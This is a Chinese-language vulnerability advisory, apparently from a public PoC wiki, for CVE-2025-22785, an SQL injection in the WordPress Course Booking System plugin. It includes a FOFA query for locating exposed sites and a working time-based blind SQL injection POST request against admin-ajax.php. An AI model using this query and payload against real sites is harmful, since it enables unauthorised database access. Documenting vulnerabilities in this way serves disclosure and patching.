


# WordPress Course Booking System SQL注入漏洞 (CVE-2025-22785)

# 漏洞描述

 ComMotion Course Booking System 中的 SQL 命令中使用的特殊元素的不当中和（“SQL 注入”）漏洞允许 SQL 注入。

# 影响版本

Course Booking System <= 6.0.5

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/course-booking-system"

POC/EXP：

POST /wp-admin/admin-ajax.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host:127.0.0.1

action=cbs_action_booking_delete&booking_id=1&course_id=1 AND (SELECT 4965 FROM (SELECT(SLEEP(2)))GYWH)&date=2024-10-27&user_id=1

# 漏洞修复

关注厂商官网动态，及时更新补丁信息。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
